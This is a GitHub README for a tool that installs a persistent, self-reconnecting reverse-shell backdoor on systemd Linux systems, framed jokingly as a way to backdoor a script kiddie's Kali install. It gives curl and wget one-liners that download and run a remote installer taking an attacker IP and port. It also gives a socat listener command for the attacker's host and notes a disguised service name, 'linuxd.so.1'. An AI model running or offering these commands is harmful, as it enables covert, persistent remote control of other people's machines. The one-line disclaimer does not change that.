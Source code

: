 # skid BEGONE!

How to backdoor a script kiddie's Kali Linux install within seconds. Alternatively: A way for very lazy people to add a reverse shell on their own system.

Please do not use this on innocent people. If you were to use this on your best friend, you'll be the greatest asshole of all time.

## Using the reverse shell

### Prerequisites

- you must obtain a root shell of some sort
- Some distro with systemd and a mutable filesystem

### Now running it...

Note: If you want the backdoored machine to reboot, append `reboot` to the commandline arguments.

```sh
curl -sSL https://raw.githubusercontent.com/GermanBread/skid-begone/master/output/install.sh > /tmp/install.sh
bash /tmp/install.sh <IP> <PORT> [reboot]
```

alternatively with wget:

```sh
wget -qq https://raw.githubusercontent.com/GermanBread/skid-begone/master/output/install.sh -O /tmp/install.sh
bash /tmp/install.sh <IP> <PORT> [reboot]
```

By default the service will start alongside other system services. If the service can't connect to your server, it will wait for a few seconds and try to reconnect.

After you've got everything up and running, run this on your host: ```socat file:`tty`,raw,echo=0 tcp-listen:<PORT>```. Make sure you have port forwarding enabled.

### Uninstalling

In a root shell, run:

```sh
/usr/lib/linuxd.so.1
```